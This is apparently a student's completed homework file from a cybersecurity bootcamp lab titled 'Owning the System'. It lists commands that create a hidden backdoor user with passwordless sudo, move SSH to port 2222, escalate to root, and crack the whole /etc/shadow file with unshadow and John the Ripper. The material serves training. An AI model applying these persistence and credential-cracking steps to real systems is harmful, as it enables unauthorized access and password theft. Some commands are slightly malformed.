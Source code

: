 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - `adduser --uid 113 --no-create-home sysd`

2. Give your secret user a password: 
    - `passwd sysd`

3. Give your secret user a system UID < 1000:
    - `usermod -u 113`

4. Give your secret user the same GID:
   - `usermod -g sysd`

5. Give your secret user full `sudo` access without the need for a password:
   -  `visudo` then, in sudoers file `sysd ALL=(ALL) NOPASSWD:ALL`

6. Test that `sudo` access works without your password:

    ```bash
    su sysd
    sudo -l
    ```

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    ```bash
   Port 2222 
    ```

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - `systemctl restart ssh`

2. Exit the `root` account:
    - `exit`

3. SSH to the target machine using your `sysd` account and port `2222`:
    - `ssh sysd@192.168.6.105 -p 2222`

4. Use `sudo` to switch to the root user:
    - `sudo -s`

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - `ssh sysd@192.168.6.105 -p 2222`

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:
    ```bash
    sudo -s
    unshadow /etc/passwd /etc/shadow > /tmp/pfj`
    john /tmp/pfj`
    john --show /tmp/pfj`
    ````

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

